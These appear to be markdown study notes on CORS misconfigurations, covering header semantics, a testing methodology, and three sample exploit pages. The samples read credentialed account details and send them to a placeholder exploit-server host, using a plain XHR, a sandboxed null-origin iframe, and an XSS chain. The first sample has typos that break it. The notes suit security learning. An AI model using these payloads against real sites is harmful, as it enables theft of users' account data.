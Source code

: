 # References
- [Cross-Origin Resource Sharing - Rana Khalil](https://www.youtube.com/watch?v=t5FBwq-kudw)
- [Portswigger Academy](https://portswigger.net/web-security/cors)

# CORS headers
- `Access-Control-Allow-Origin` header: Specifies if the origin is allowed to access the resources of the website. Only access public pages.
- The values could be:
```
*
<origin>
null
```
- Each with its security implications
- `Access-Control-Allow-Credentials: true` Allow authenticated pages
- Note: if`Access-Control-Allow-Origin` is set to `*` then the `Access-Control-Allow-Credentials` header is not allowed

# CORS Vulnerabilities
- The Access-Control-Allow-Origin header only allows to whitelist one origin, this is a limitation that developers need to circumvent
- They use `dynamic generation` to address this limitation
- The logic of how an origin is decided to be trusted is what causes the misconfigurations
## Testing Methodology
- Find a request disclosing sensitive information
- Inject the Origin header and start testing different url options
- Look at server responses and check for "Access-Control-Allow-Origin" or "Access-Control-Allow-Credentials"
- Add or change the origin header to set the current host as a subdomain of an attacker controlled domain "current-host.net.attacker-site.com" and observe the server response
- Add or change the origin header to a subdomain of the current Host value and observe the server response
- Add or change the origin header to an arbitrary value and observe the server response
- Add or change the origin header to "null" value and observe the server response

# Samples
1. Dynamic generation
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
        var xhr = new XMLHttpRequest();
        var url = "https://vulnerable-site.com"
        xhr.onreadoystatechange = function() {
            if (xhr.readyState == XMLHttpRequest.DONE) {
                fetch("/log?key=" + xhr.responseText)
            }
        }
        xhr.open('GET', url + "/accountDetails", true);
        xhr.withCrendentials = true;
        xhr.send(null);
        </script>
    </body>
</html>
```

2. Null whitelisted: use an iframe. In the second "x.open" specify the full PATH of the exploit server since the request is coming from a sandboxed iframe
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display: none" sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
        xhr=new XMLHttpRequest();
        xhr.onload=function(){
            const x=new XMLHttpRequest()
            x.open('GET', 'https://exploit-server.net/log?key='+btoa(this.responseText))
            x.send()
        }
        xhr.open('GET', 'https://vulnerable-site/accountDetails', true);
        xhr.withCredentials = true;
        xhr.send();
        </script>"></iframe>
    </body>
</html>

```
3. Insecure HTTP protocol in CORS policy + subdomain vulnerable to XSS
```html
<html>
    <body>
        <script>
        document.location='http://subdomain.vulnerable-website.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://vulnerable-website.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1'
        </script>
    </body>
</html>
```
# Extras to read
- https://quitten.github.io/StackStorm/
- https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties
- https://blog.saynotolinux.com/blog/2016/08/15/jetbrains-ide-remote-code-execution-and-local-file-disclosure-vulnerability-analysis/
